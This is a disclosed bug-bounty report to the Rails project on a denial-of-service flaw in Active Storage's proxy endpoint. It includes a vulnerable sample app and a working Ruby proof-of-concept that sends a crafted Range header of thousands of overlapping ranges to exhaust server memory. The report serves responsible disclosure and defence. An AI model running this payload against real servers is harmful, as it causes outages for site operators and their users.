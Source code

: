# DoS with crafted "Range" header

## Report Details
- **Report ID**: 2307813
- **URL**: https://hackerone.com/reports/2307813
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-01-08T14:54:36.153Z
- **Disclosed**: 2024-06-25T09:29:59.053Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
I have crafted a request header for "range" against proxy url in Active Storage and confirmed that it will be a DoS.

https://github.com/rails/rails/blob/v7.1.2/activestorage/app/controllers/active_storage/blobs/proxy_controller.rb#L14

```ruby
  def show
    if request.headers["Range"].present?
      send_blob_byte_range_data @blob, request.headers["Range"]
```      

https://github.com/rails/rails/blob/v7.1.2/activestorage/app/controllers/concerns/active_storage/streaming.rb#L14

```ruby
    def send_blob_byte_range_data(blob, range_header, disposition: nil)
      ranges = Rack::Utils.get_byte_ranges(range_header, blob.byte_size)
```

The `Range` object returned by [Rack::Utils.get_byte_ranges](https://github.com/rack/rack/blob/v3.0.8/lib/rack/utils.rb#L435) will never exceed the file size, but there is no restriction on overlapping ranges.

```ruby
❯ bundle exec rails c
Loading development environment (Rails 7.1.2)
irb(main):001> Rack::Utils.get_byte_ranges("bytes=20-40", 200)
=> [20..40]
irb(main):002> Rack::Utils.get_byte_ranges("bytes=20-200,0-200,0-200,-200,-200,", 200)
=> [20..199, 0..199, 0..199, 0..199, 0..199]
```

## PoC

```
❯ ruby -v
ruby 3.2.2 (2023-03-30 revision e51014f9c0) [arm64-darwin22]

❯ rails new range_dos -G -M -C -A -J -T 
=>  Rails 7.1.2, Rack 3.0.8

❯ cd range_dos

❯ bin/rails active_storage:install

❯ bin/rails generate model User avatar:attachment 

❯ bin/rails db:migrate   
```

`config/routes.rb`

```ruby
Rails.application.routes.draw do
  resources :users
  get "up" => "rails/health#show", as: :rails_health_check
end
```

`app/controllers/users_controller.rb`

```ruby
class UsersController < ApplicationController

  def new
    @user = User.new
  end

  def create
    user = User.create!(user_params)
    redirect_to "/users/#{user.id}"
  end

  def show
    @user = User.find(params[:id])
  end

  private
    def user_params
      params.require(:user).permit(:avatar)
    end
end
```

`app/views/users/new.html.erb`

```html
<%= form_with model: @user, local: true, :url => {:action => :create}  do |form| %>
  <%= form.file_field :avatar %><br>
  <%= form.submit %>
<% end %>
```

`app/views/users/show.html.erb`

```html
<% if @user.avatar.attached? %>
  <%= image_tag rails_storage_proxy_path(@user.avatar) %>
<% end %>
```

start server

```
# Comment out `config.force_ssl = true` in production.rb
❯ RAILS_ENV=production bundle exec rails s
```

After uploading the file on the `http://0.0.0.0:3000/users/new` screen, copy the proxy url that appears on the screen.
Sends the request using a crafted header for the url.

`range_request.rb`

```ruby
require 'net/http'

# set proxy url
url = URI.parse('http://0.0.0.0:3000/rails/active_storage/blobs/proxy/...')

req = Net::HTTP::Get.new(url.path)

# length = 8000 # Bad request

length = (80 * 1024 - "bytes=".bytesize) /  "-999999999,".bytesize
puts length 

req["Range"] = "bytes=" + "-999999999," * length 

res = Net::HTTP.start(url.host, url.port) {|http|
  http.request(req)
}

puts res.message
puts res.body.bytesize
```

```
❯ ruby range_request.rb
7446
Partial Content
410058706
```

If the target file is about 50 KB, each request will increase memory usage by several hundred MB.
If the file is nearly 1 MB, more than 10 GB of memory was used on the server side.

## Impact

When accessing the url of proxy, it is possible to put a load on the server's memory usage, etc., by repeatedly writing values in the `Range` request header. Even if the attacker stops the request midway through, the server continues to prepare data, making the attack more efficient.

The same problem exists with [Rack::Files](https://github.com/rack/rack/blob/main/lib/rack/files.rb#L85), but the problem is more serious with Active Stroage, which deals with files uploaded by users.

Additionally, when using nginx, the header length is limited to 8KB, which reduces the impact of the attack. 80KB is set in unicorn and puma.

## Attachments
No attachments

